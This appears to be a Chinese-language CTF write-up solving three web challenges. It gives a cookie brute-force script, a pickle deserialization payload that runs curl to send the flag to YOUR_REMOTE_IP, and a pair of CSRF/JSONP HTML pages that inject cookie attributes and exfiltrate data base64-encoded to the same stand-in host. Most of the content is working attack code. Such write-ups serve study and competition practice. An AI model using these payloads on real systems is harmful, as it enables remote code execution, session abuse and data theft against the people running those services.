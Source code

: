 # 1 Jiaran!!!
用给出的用户名登录后，爆破cookie的id即可
```python
import requests

for i in range(0, 1000):
    r = requests.get("http://103.102.44.218:10003/", headers={
        "Cookie": f"userData=j%3A%7B%22userID%22%3A%22{str(i).rjust(3, '0')}%22%2C%22username%22%3A%22admin%22%7D"
    })
    if "flag{" in r.text:
        print(r.text)
```
运行脚本等一会可以得到flag，等不及的可以开多线程玩

# 2 Do you like pickle?
pickle反序列化RCE，没有过滤(一般题目可能过滤掉R指令)，直接打印环境变量到远程服务器：
```python
import base64
import pickle


class RCE(object):
    def __reduce__(self):
        s = "__import__('os').popen('curl http://YOUR_REMOTE_IP/$FLAG').read()"
        return eval, (s,)  # reduce函数必须返回元组或字符串


print(base64.b64encode(pickle.dumps(RCE())))
```
执行后查看远程服务器的日志
>tail /var/log/apache2/access.log

得到flag

# 3 Jason is a cool guy

## 特殊解：
密码是然然的直播间号，真正的嘉心糖可以直接输入正确的密码得到flag。

## 预期解：

在服务器端更新cookie的逻辑有漏洞：
```js
app.post('/passcode', function (req, res) {
	if (req.body.passcode === 'CLEAR') res.append('Set-Cookie', 'passcode=')
	else res.append('Set-Cookie', `passcode=${(req.cookies.passcode || '')+req.body.passcode}`)
	return res.redirect('/')
})
```
可以通过第三方页面向 **/passcode** 提交
>; Secure; SameSite=None

来增加Admin Bot的cookie属性，指定 **SameStie=None** 可以让cookie可以跨站发送造成CSRF。  
注意该属性仅适用于https访问传递cookie（指定 **SameStie=None** 需要cookie带有 **Secure** 属性，而Cookie:Secure仅适用于https）  
之后在空referer（绕过samesite函数检测）情况下再加载flag页面就能拿到flag
```html
<!--1.html-->
<html>
    <head>
        <meta name="referrer" content="no-referrer">
    </head>
    <body>
        <script>
                function load (data) {
                    var x = data.items.map(i => ` ${i} `).join('')
                    var y = btoa(x)
                    window.open("http://YOUR_REMOTE_IP/="+y);
                }
                window.open("./2.html");
        </script>
        <script src="https://81.68.223.245/flags?callback=load"></script>
        <script src="https://81.68.223.245/languages?callback=load"></script>
        <script src="https://81.68.223.245/friends?callback=load"></script>
        <script src="https://81.68.223.245/flags?callback=load"></script>
        <script src="https://81.68.223.245/flags?callback=load"></script>
        <script src="https://81.68.223.245/flags?callback=load"></script>
        <script src="https://81.68.223.245/flags?callback=load"></script>
        <script src="https://81.68.223.245/flags?callback=load"></script>
    </body>
</html>
```

```html
<!--2.html-->
<html lang="en">
<head>
    <meta name="referrer" content="no-referrer">
</head>
<body>
    <form action="https://81.68.223.245/passcode" id="csrf-form" method="POST">
        <input name="passcode" value="; Secure; SameSite=None">
    </form>
    <script>document.getElementById("csrf-form").submit()</script>
</body>
</html>
```
输入1.html的link后查看远程服务器的日志，得到flag